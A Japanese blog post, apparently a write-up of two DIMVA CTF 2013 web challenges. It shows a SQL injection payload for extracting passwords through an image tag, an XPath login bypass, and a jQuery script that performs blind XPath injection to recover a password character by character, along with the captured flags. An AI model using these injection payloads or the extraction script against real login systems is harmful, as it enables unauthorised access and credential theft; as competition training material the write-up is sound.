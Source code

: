 ```yaml
---
title: DIMVA CTF 2013 writeup
author: tyage
type: posts
date: 2013-07-19T16:29:48+00:00
url: /?p=697
wp-syntax-cache-content:
  - |
    a:2:{i:1;s:959:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
    </pre></td><td class="code"><pre class="html5" style="font-family:monospace;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: <span style="color: #009900;">&lt;login&gt;&lt;user&gt;</span>(base64-encoded username)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>user&gt;&lt;password&gt;</span>(base64-encoded password)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>password&gt;&lt;<span style="color: #66cc66;">/</span>login&gt;</span></pre></td></tr></table><p class="theCode" style="display:none;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: &lt;login&gt;&lt;user&gt;(base64-encoded username)&lt;/user&gt;&lt;password&gt;(base64-encoded password)&lt;/password&gt;&lt;/login&gt;</p></div>
    ";i:2;s:5063:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;"><span style="color: #000066; font-weight: bold;">var</span> search <span style="color: #339933;">=</span> <span style="color: #3366CC;">&quot;c0ffee&quot;</span><span style="color: #339933;">;</span>
    &nbsp;
    <span style="color: #000066; font-weight: bold;">var</span> test <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>next<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    	$.<span style="color: #660066;">ajax</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#123;</span>
    		url<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;/&quot;</span><span style="color: #339933;">,</span>
    		data<span style="color: #339933;">:</span> <span style="color: #009900;">&#123;</span>
    			user<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;&quot;</span><span style="color: #339933;">,</span>
    			password<span style="color: #339933;">:</span> Base64.<span style="color: #660066;">encode</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;' | //User[contains(.,'&quot;</span> <span style="color: #339933;">+</span> search <span style="color: #339933;">+</span> next<span style="color: #009900;">&#41;</span>
    		<span style="color: #009900;">&#125;</span>
    	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span>.<span style="color: #660066;">done</span><span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>data<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		search <span style="color: #339933;">+=</span> next
    		nextTest<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span>
    &nbsp;
    <span style="color: #000066; font-weight: bold;">var</span> nextTest <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #3366CC;">&quot;a&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #3366CC;">&quot;z&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		test<span style="color: #009900;">&#40;</span><span style="">String</span>.<span style="color: #660066;">fromCharCode</span><span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span>
    	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #CC0000;">0</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #CC0000;">9</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
    		test<span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    	<span style="color: #009900;">&#125;</span>
    <span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span></pre></td></tr></table><p class="theCode" style="display:none;">var search = &quot;c0ffee&quot;;
    
    var test = function(next) {
    	$.ajax({
    		url: &quot;/&quot;,
    		data: {
    			user: &quot;&quot;,
    			password: Base64.encode(&quot;' | //User[contains(.,'&quot; + search + next)
    		}
    	}).done(function(data) {
    		search += next
    		nextTest();
    	});
    };
    
    var nextTest = function() {
    	for (var i=&quot;a&quot;.charCodeAt(0);i&lt;=&quot;z&quot;.charCodeAt(0);++i) {
    		test(String.fromCharCode(i));
    	}
    	for (var i=0;i&lt;=9;++i) {
    		test(i);
    	}
    };</p></div>
    ";}
categories:
  - CTF

---
```

<p><a href="https://dimvactf.0x90.eu" title="DIMVA CTF">DIMVA CTF</a>に参加していた。</p>
<p>私のチーム（Epsilon Delta）は850ポイントで17位だった。</p>
<h3>Web 100</h3>
<p>画像アップローダーが用意されており、どうにかこうにかする問題。</p>
<p>はじめにいくつか画像が用意されており、パスワードを入力しないと閲覧できない画像があったため、そのパスワードを求める問題と推察される。</p>
<p>各画像にはタグがついており、同じタグを持つ写真を一覧で見れる。</p>
<p>しかし、シングルクオートの入ったタグの場合は一覧ページでエラーが発生していたため、SQLインジェクションがあるとわかった。</p>
<p>画像をアップロードした際、画像のコメントがタグになって登録されるので、そこにSQLインジェクションを埋め込む。</p>
<pre>
' union all select password from pictures--
</pre>
<p>その後、一覧ページを閲覧することでパスワードが入手でき、c0ffeeからはじまるパスワードがFlagであると判明した。</p>
<pre>
c0ffee29e34ad42d38cbe236913c911a
</pre>
<p>パスワード付きの画像はこんな感じだった。</p>
<p><a href="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg"><img data-attachment-id="699" data-permalink="https://blog.tyage.net/?attachment_id=699" data-orig-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" data-orig-size="616,425" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;9&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;DSLR-A700&quot;,&quot;caption&quot;:&quot;SONY DSC&quot;,&quot;created_timestamp&quot;:&quot;1226238208&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;210&quot;,&quot;iso&quot;:&quot;800&quot;,&quot;shutter_speed&quot;:&quot;0.001&quot;,&quot;title&quot;:&quot;SONY DSC&quot;,&quot;orientation&quot;:&quot;1&quot;}" data-image-title="SONY DSC" data-image-description="" data-medium-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" data-large-file="https://blog.tyage.net/wp-content/uploads/2013/07/4567.jpg" src="http://blog.tyage.net/wp-content/uploads/2013/07/4567-300x206.jpg" alt="SONY DSC" width="300" height="206" class="alignnone size-medium wp-image-699" /></a></p>
<p>素直でわかりやすい問題だったように思う。</p>
<h3>Web 200</h3>
<p>普通にアクセスすると</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="line_numbers"><pre>10
</pre></td><td class="code"><pre class="html5" style="font-family:monospace;">'user' and/or 'password' parameters missing, please provide an xml parameter of the following form to login: <span style="color: #009900;">&lt;login&gt;&lt;user&gt;</span>(base64-encoded username)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>user&gt;&lt;password&gt;</span>(base64-encoded password)<span style="color: #009900;">&lt;<span style="color: #66cc66;">/</span>password&gt;&lt;<span style="color: #66cc66;">/</span>login&gt;</span></pre></td></tr></table></div>

<p>ってのが返って来る。</p>
<p>一日近く、urlにログイン用xmlを足したり、ファイルとして送信したり、送信するパケットのいろんなところに埋め込んだりして悩んだ。。。</p>
<p>コンテスト終了直前になって、/?xml=<login>&#8230;とすればログインできることに気づく。</p>
<p>xml parameterってのが素直にxmlって名前のリクエストパラメータだったのに、そこに気づくまでに一日かかって英語の壁を感じる。</p>
<p>これがわかればあとは解くだけ。</p>
<p>とりあえず色々試していると、以下のレスポンスが返って来たため、XPathへのインジェクションだとわかった。</p>
<pre>
 Error during login: Query: //User[UserName/text()='' and Password/text()='' '... ........................................................^^^ Invalid query somewhere around here (I think)
</pre>
<p>「&#8217; or &#8216;1&#8217;=&#8217;1」とかしてログインに成功すると、htmlのコメントで「users.xml~が残ってるからあとで消すように」と書かれているのでアクセスしてみる。</p>
<p>xml形式のユーザーデータがあり、「c0ffeefa7745f449c26000a2612affec」というデータがあったので、それをFlagとして送信したが失敗。</p>
<p>どうやらuser.xml~は古いデータらしく、現在は別のものに置き換わっている模様。</p>
<p>なのでblind injectionを利用して現在のデータからFlagを取得する。</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="javascript" style="font-family:monospace;"><span style="color: #000066; font-weight: bold;">var</span> search <span style="color: #339933;">=</span> <span style="color: #3366CC;">&quot;c0ffee&quot;</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #000066; font-weight: bold;">var</span> test <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>next<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
	$.<span style="color: #660066;">ajax</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#123;</span>
		url<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;/&quot;</span><span style="color: #339933;">,</span>
		data<span style="color: #339933;">:</span> <span style="color: #009900;">&#123;</span>
			user<span style="color: #339933;">:</span> <span style="color: #3366CC;">&quot;&quot;</span><span style="color: #339933;">,</span>
			password<span style="color: #339933;">:</span> Base64.<span style="color: #660066;">encode</span><span style="color: #009900;">&#40;</span><span style="color: #3366CC;">&quot;' | //User[contains(.,'&quot;</span> <span style="color: #339933;">+</span> search <span style="color: #339933;">+</span> next<span style="color: #009900;">&#41;</span>
		<span style="color: #009900;">&#125;</span>
	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span>.<span style="color: #660066;">done</span><span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span>data<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		search <span style="color: #339933;">+=</span> next
		nextTest<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #000066; font-weight: bold;">var</span> nextTest <span style="color: #339933;">=</span> <span style="color: #000066; font-weight: bold;">function</span><span style="color: #009900;">&#40;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #3366CC;">&quot;a&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #3366CC;">&quot;z&quot;</span>.<span style="color: #660066;">charCodeAt</span><span style="color: #009900;">&#40;</span><span style="color: #CC0000;">0</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		test<span style="color: #009900;">&#40;</span><span style="">String</span>.<span style="color: #660066;">fromCharCode</span><span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span>
	<span style="color: #000066; font-weight: bold;">for</span> <span style="color: #009900;">&#40;</span><span style="color: #000066; font-weight: bold;">var</span> i<span style="color: #339933;">=</span><span style="color: #CC0000;">0</span><span style="color: #339933;">;</span>i<span style="color: #339933;">&lt;=</span><span style="color: #CC0000;">9</span><span style="color: #339933;">;++</span>i<span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
		test<span style="color: #009900;">&#40;</span>i<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
	<span style="color: #009900;">&#125;</span>
<span style="color: #009900;">&#125;</span><span style="color: #339933;">;</span></pre></td></tr></table></div>

<p>以下のFlagが得られる。</p>
<pre>
c0ffee153dbc077ea80f4e697a63ec1e
</pre>
<p>Accepted!!!</p>
